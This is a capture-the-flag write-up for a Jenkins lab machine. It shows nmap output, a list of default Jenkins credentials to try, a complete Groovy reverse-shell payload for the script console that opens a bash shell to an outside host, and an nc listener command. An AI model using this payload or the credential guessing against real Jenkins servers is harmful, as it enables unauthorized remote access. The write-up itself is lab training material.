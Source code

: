 # ENUMERATION

nmap:
```shell
└─$ nmap -sC -sV 10.129.157.169 -o nmap.txt  
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-02 19:32 CEST
Nmap scan report for 10.129.157.169
Host is up (0.031s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
8080/tcp open  http    Jetty 9.4.39.v20210325
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
|_http-server-header: Jetty(9.4.39.v20210325)
| http-robots.txt: 1 disallowed entry 
|_/

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.89 seconds
zsh: segmentation fault  nmap -sC -sV 10.129.157.169 -o nmap.txt
                                                                                                            
┌──(darthv㉿elite)-[~/…/badorius/vulnhub/Pennyworth/enumeration]
```

Open http://10.129.157.169:8080 on browser and Jenkins login page. GG search for a default jenkins credentials and try with it:

```
admin:password
admin:admin
root:root
root:password
admin:admin1
admin:password1
root:password1
```

# Foothold

Starting reverse shell, take a look on following jenkins web info:

[Hacktricks Jenkins](https://book.hacktricks.xyz/cloud-security/jenkins#code-execution)
[GitHub PWN Jenkins](https://github.com/gquere/pwn_jenkins)

We are going to open script groovy console, and use the following reverse shell on [groovy](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#groovy) section.

Go to http://10.129.157.169:8080/script and type the following pyload on script input box:
```
String host="10.10.14.104";
int port=8000;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
Start reverse shell:

```shell
└─$ nc -lvnp 8000                          
Listening on 0.0.0.0 8000

```
Done

9cdfb439c7876e703e307864c9167a15
